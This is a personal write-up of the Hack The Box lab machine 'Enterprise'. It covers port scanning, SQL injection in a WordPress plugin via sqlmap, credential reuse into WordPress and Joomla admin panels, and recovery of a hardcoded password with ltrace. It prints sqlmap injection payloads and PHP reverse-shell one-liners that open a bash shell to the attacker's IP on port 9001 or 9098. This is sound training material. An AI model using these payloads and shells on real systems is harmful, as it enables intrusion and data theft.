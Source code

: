 ```yaml
---
title: "Enterprise"
date: 2020-11-15T19:47:18+01:00
draft: false
summary: "This was quite a challenging machine as it featured both knowledge of wordpress joomla, and for privileage escalation it needed a buffer overflow."
---
```



#### Machine Skills
---
This was quite a challenging machine as it featured both knowledge of wordpress joomla, and for privileage escalation it needed a buffer overflow.


-----
#### Step 1 - Enumeration
-----
As usual the first part of the hack is the enumeration. For this I used a new tool masscan 

-----
------
```bat
sudo masscan -e tun0 -p0-65535 --max-rate 500 10.10.10.61

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-11-09 16:29:04 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 32812/tcp on 10.10.10.61                                  
Discovered open port 8080/tcp on 10.10.10.61                                   
Discovered open port 22/tcp on 10.10.10.61                                     
Discovered open port 443/tcp on 10.10.10.61                                    
Discovered open port 80/tcp on 10.10.10.61  
```
-------
-------
A number of useful ports were easy to identify on the machine 8080,443, 80. All of these were possible web interfaces.

After looking through the websites all I could find was an interesting email, and that the on  port 8080 the machine was running joomla and on port 80 it was running wordpress. This was odd

![Search pages](/Enterprise/Certificate.png)
##### [Figure 1.0 - Intersting Certificate ] 

On the certificate of the application runing on 443 I found an interesting email that later on turned out to be the name of the user. I kept this close.

To further investigate I used dirbuster to see if I can find any intersting files or folders on the machine.

-----
------
```bat
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.61
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/02 04:48:14 Starting gobuster
===============================================================
/files (Status: 301)
/server-status (Status: 403)
```
-------
-------

Here I found the files folder that contained information of interest. The other found path was down or innacessible. 

![Search pages](/Enterprise/Files.png)
##### [Figure 1.1 - /files page ] 

On the files page I looked around and found lcars. After researching it I found out that this is a plugin for wordpress. Therefore I looked at things that I could do with it. in the end I found a way to check for sql errors



----
### Step 2 -Exploitation
---

![Search pages](/Enterprise/FatalError.png)
##### [Figure 2.1 - sql errir ] 

What I found was that the page was vulnerable to sql injections. I intercepted the request again using buipsuite and used the header as a base for an sqlmap attack. 

-----
------
```bat
sqlmap -r lcarss.req -p query --dbms mysql --risk 1 --level 1 

Parameter: query (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: query=(SELECT (CASE WHEN (9163=9163) THEN 22 ELSE (SELECT 4697 UNION SELECT 9178) END))

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: query=(SELECT 9158 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(9158=9158,1))),0x71626a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: query=22 AND (SELECT 1891 FROM (SELECT(SLEEP(5)))eCYZ)
---
[05:06:06] [INFO] testing MySQL
[05:06:06] [INFO] confirming MySQL
[05:06:06] [INFO] the back-end DBMS is MySQL

```
-------
-------
After a few tries this is the sqlmap command that worked. With the use of this and the command `sqlmap -u "http://`10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=50&#8243; –dbms=mysql -D wordpress –dump`

A list of usernames and passswords were found. Using these credentials I was able to get inside the wordpress administrator page  at ` http://10.10.10.61/wp-login.php ` 

![Search pages](/Enterprise/LoginPage.png)
##### [Figure 2.2 - Wordpress Logged In ] 

Over here I looked into the pluggins page and was able to find the lcars plugin where I inserted the code for a reverse shell `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'");?>` 
After placing a listener with `nc -nvlp 9001` on my machine I ran the lcars.php file.

![Search pages](/Enterprise/PluginShell.png)
##### [Figure 2.3 - Plugin Shell ] 
From this point I got a shell inside the wordpress server


----
### Step 3 - Foothold
---

![Search pages](/Enterprise/UserAccess.png)
##### [Figure 3.1 - Plugin Shell ] 
At this point I got user access on the machine but I did not have a proper user, after further inspection the user.txt said the following

-----
------
```bat
As you take a look around at your surroundings you realise there is something wrong.
This is not the Enterprise!
As you try to interact with a console it dawns on you.
Your in the Holodeck!
```
-------
-------

After further inspection I realised that I was in a docker container from the ip of the machine 172.17.0.14. Next I needed to check the other service that had joomla on it

![Search pages](/Enterprise/JoomlaLogin.png)
##### [Figure 3.2 - Login jommla ]

After going through some of the passowrds found in the sqlmap dump I was able to login.

![Search pages](/Enterprise/JoomlaShell.png)
##### [Figure 3.3 - jommla get shell ]

Using the same method used with the wordpress login I was able to create a reverse shell for the joomla machine. Once in the machine after some looking around I found out that there was a root folder that had write permissions on it. It was the files folder. This lead me to believe that this is the actual machine that has user.txt but in fact it was a fake like the last one.

After further investigation I realized that the files folder was the one from port 443 and most likely the one with the user.txt. I placed a file with a reverse shell php on it 
`echo $' <?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.8/9098 0>&1\'"); ?> >> reverseshell.php'`


![Search pages](/Enterprise/JeanLucPicard.png)
##### [Figure 3.4 - Jean Luc Picard login]

This gave me the permissions needed to access the actual user account and get a foothold into the machine.

---
### Step 4 - Privilage Escalation
---

From the machine that I was hacking I called ``netstat -antup` to see all the processes on the machine. With this I was able to identify 2 more ports 5355 and 32812. After using  `nc -nv 10.10.10.61 {port}` on both of them to see if this gets me anything I was able to find the lcars program.

Not sure what it is supposed to do but after running it on my machine I was able to use 
`ltrace ./lcars.binary `

and in the result found the password

----
----
```bat
__libc_start_main(0x56652c91, 1, 0xffdc65b4, 0x56652d30 <unfinished ...> 
---SNIP--
fgets( 
"\n", 9, 0xf7edb540)                                                                                   = 0xffdc64e7 
strcmp("\n", 
````
___"picarda1")___     

````                                                                              = -1 
---SNIP---
exit(0 <no return ...> 
+++ exited (status 0) +++
```
----
----

That being picarda1

With this I was able to use the application.
